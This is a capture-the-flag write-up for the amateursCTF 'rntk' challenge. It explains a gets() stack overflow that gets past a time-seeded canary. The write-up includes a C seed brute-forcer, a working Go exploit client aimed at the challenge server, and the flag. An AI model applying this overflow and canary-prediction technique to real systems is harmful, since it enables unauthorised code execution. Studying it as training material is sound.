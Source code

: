 # rntk

## Prompt
check out my random number toolkit!

`nc amt.rs 31175`

## Solution
Open Ghidra and analyze the binary to find the main function.

The points of interest are `generate_canary()`, `random_guess()`, and `win()`. 

`main()` is the entry point. It runs `generate_canary()` and takes user input.
![1](image1.png)

`generate_canary()` uses the current time as a seed, generates a random number, and saves it as `global_canary`.
![2](image2.png)

`random_guess()` takes user input via `gets()` and is resistant to attacks by maintaining that a `local_canary` is equal to the `global_canary`.
![3](image3.png)

The function returns to address `0x004014cf` after it completes.
![3.5](image3.5.png)

`win()` is an unreachable function that sends the flag.
![4](image4.png)

It starts at address `0x004012b6`.
![3.5](image4.5.png)

Using GDB, one can analyze the call stack. Breakpoints should be set before and after the vulnerable `gets()` in order to see how it affects the stack.
![5](image5.png)

Running the file and analyzing the stack before and after input shows how the input is stored. 
![6](image6.png)
As can be seen, the value `0x004014cf` is on the stack. This is the return address and is the target for overflow.

The second value `0x4db6562a` is the `local_canary` value here. It must be calcualted, so it can remain on the stack even after the attack.

A random number can be generated in order to reverse the exact second the seed time.
![7](image7.png)


Running this script gives the hex value of the global canary, which matches the `0x4db6562a` already on the stack.
```c
#include "stdint.h"
#include "stdio.h"
#include "stdlib.h"

int b = 104077886;

int main() {

    uint32_t time = 1689486301;

    while (time != 0) {
        srand(time);
        int one = rand();
        int two = rand();

        if (b == two) {
            int guess = rand();
            printf("Canary: %d\n", one);
            printf("Canary: %x\n", one);
            break;
        }

        time += 1;
    }

    return 0;
}
```

![8](image8.png)

Notice above that the canary is the 12th "block" and the return address is the 15th "block." This means the attack must be formatted (`A` as `41` will be used for filler):

`41414141` * 11 + `local_canary` + `41414141` * 2 + `0x004012b6` (flipped endian)

```go
package main

import (
	"bufio"
	"encoding/hex"
	"fmt"
	"net"
	"os"
	"strings"
)

func main() {

	CONNECT := "amt.rs:31175"
	c, err := net.Dial("tcp", CONNECT)
	if err != nil {
		fmt.Println(err)
		return
	}

	var message string
	var text string
	recv := bufio.NewReader(c)
	send := bufio.NewReader(os.Stdin)

	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)

	fmt.Print(">> ")
	fmt.Fprintf(c, "1"+"\n")

	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)

	fmt.Print(">> ")
	fmt.Fprintf(c, "2"+"\n")

	message, _ = recv.ReadString(':')
	fmt.Print("->: " + message)

	// BEGIN EXPLOIT
	exploit := "4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141"

	// Get hex canary input
	text, _ = send.ReadString('\n')
	text = strings.Replace(text, "\n", "", -1)
	exploit += endian(text) // Converts to correct endian

	// Add remainder
	exploit += "4141414141414141b6124000"

	ex, err := hex.DecodeString(exploit)
	if err != nil {
		panic(err)
	}
	fmt.Println(string(ex))

	fmt.Fprintf(c, string(ex)+"\n")

	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)
	message, _ = recv.ReadString('\n')
	fmt.Print("->: " + message)

}

func endian(input string) string {
	out := ""
	for i := 0; i < len(input); i += 2 {
		out = input[i:i+2] + out
	}

	fmt.Println(input, out)

	return out
}

```

![9](image9.png)

## Flag
`amateursCTF{r4nd0m_n0t_s0_r4nd0m_after_all}`
